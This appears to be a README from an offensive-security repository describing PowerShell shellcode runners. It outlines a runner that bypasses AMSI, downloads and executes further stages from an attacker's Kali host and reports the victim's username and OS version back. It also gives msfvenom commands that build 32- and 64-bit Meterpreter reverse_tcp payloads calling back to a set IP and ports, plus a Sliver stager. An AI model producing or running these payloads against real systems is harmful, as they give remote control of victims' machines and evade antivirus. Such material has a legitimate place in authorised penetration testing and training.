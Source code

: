 # Shell Code Runners

## Runner (Powershell) Code Runner
runner.ps1
```bash
# Requirements: Update the $IP with kali tun0 IP address
# Step 1 - Contains amsi bypass 1.txt and 2.txt which will download and run
# Step 2 - Pass two variables in two requests and can be viewable from pythons http.server output; username and OS version
# Step 3 - Download and run the referenced shellcode runner, usually sliver.ps1 (or .txt depending on AV context) as referenced in sliver.ps1
```

## Powershell Code Runners
powershellCodeRunner-32.ps1

```bash
# meterpreter payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
```

## Powershell Code Runners
powershellCodeRunner-64.ps1

```bash
# meterpreter payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
```

## Sliver (Powershell) Code Runner to point to stage-listner for x64 host
sliver.ps1

```bash
# meterpreter payload 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8064 EXITFUNC=thread -f ps1
```